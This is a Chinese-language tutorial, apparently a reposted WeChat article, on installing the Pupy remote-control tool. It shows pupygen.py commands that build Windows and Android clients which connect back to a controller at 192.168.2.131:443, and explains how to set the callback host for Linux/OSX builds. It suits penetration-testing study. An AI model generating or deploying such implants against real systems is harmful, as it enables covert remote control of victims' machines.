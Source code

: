 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/llYPZVtSoc28zw8MgE5QOw)

项目地址
----

https://github.com/n1nj4sec/pupy

项目简介
----

Pupy 是一个使用 python 编写并且开源的全平台远程控制工具，其客户端支持 Linux,Android,Windows,Osx 系统，并且提供多个利用模块, 用户也可以自己写模块，比如编写一个 D0ss 模块

安装方法
----

**安装**

需要 python 版本 >=2.7

> git clone –recursive git://github.com/n1nj4sec/pupy.git pupy  
> pip install -r requirements.txt

默认 clone 的时候是不带 payload_template 的，需要去其项目中单独下载

将 https://github.com/n1nj4sec/pupy-binaries/tree/0a95af476b4f5faf1a217ccf5badec2f3e762da9

这里的内容下载并放入 /pupy/payload_template 目录下即可。

**生成客户端**

其 windows 客户端支持下列类型：

> {exe_x86,exe_x64,dll_x86,dll_x64}

生成方法：

> ./pupygen.py -t exe_x86 simple –host 192.168.2.131:443 #Windows 客户端
> 
> ./pupygen.py -t apk simple –host 192.168.2.131:443 ＃安卓客户端

若需要生成 linux/osx 客户端，需要修改 **pp.py** 中的配置为你的主机地址即可

> LAUNCHER=”simple” # the default launcher to start when no argv  
> LAUNCHER_ARGS=shlex.split(“–host 127.0.0.1:443 –transport tcp_ssl”) # default launcher arguments

然后在 linux/osx 下安装 pyinstaller 模块将其打包成二进制文件。

> pyinstaller –onefile /full_path/pupy/pupy/pp.py

![](http://mmbiz.qpic.cn/mmbiz/cuBLf97ic7tycll83wStrCG2z0tDyauIVOW9rX0FLYia2W1hS132vxXR5DXlETBSAc5gmw7lTtNaVLCWAreSjt7Q/640?wx_fmt=jpeg)